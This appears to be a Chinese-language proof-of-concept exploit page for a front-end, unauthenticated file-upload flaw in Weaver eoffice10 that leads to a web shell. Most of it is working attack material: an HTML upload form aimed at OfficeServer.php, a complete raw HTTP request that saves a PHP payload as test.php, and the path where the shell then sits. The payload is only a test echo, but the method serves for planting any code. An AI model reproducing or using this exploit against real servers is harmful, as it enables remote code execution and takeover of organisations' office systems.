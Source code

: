 # 泛微 eoffice10 前台 getshell

来源

https://planet.vulbox.com/detail/MTA5MjY=



漏洞等级：高危



## 漏洞POC/EXP

查看eoffice10/version.json版本号：http://XXXXXXX:8010/eoffice10/version.json

模拟文件上传的html代码

```html
<form method='post' 

action='http://XXXXXXXX:8010/eoffice10/server/public/iWebOffice2015/OfficeServer.php' 

enctype="multipart/form-data" > 

<input type="file" name="FileData"/></br></br>

<input type="text" name="FormData" value="1"/></br></br>

<button type=submit value="上传">上传</button> </form>
```

shell http://XXXXXXXX:8010/eoffice10/server/public/iWebOffice2015/Document/test.php

```
POST /eoffice10/server/public/iWebOffice2015/OfficeServer.php HTTP/1.1
Host: XXXXXXXX:8010
Content-Length: 378
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJjb5ZAJOOXO7fwjs
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like 
Gecko) Chrome/91.0.4472.77 Safari/537.36
Accept: 
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Connection: close

------WebKitFormBoundaryJjb5ZAJOOXO7fwjs
Content-Disposition: form-data; name="FileData"; filename="1.jpg"
Content-Type: image/jpeg
<?php echo md5(1);?>
------WebKitFormBoundaryJjb5ZAJOOXO7fwjs
Content-Disposition: form-data; name="FormData"
{'USERNAME':'','RECORDID':'undefined','OPTION':'SAVEFILE','FILENAME':'test.php'}
------WebKitFormBoundaryJjb5ZAJOOXO7fwjs--
```

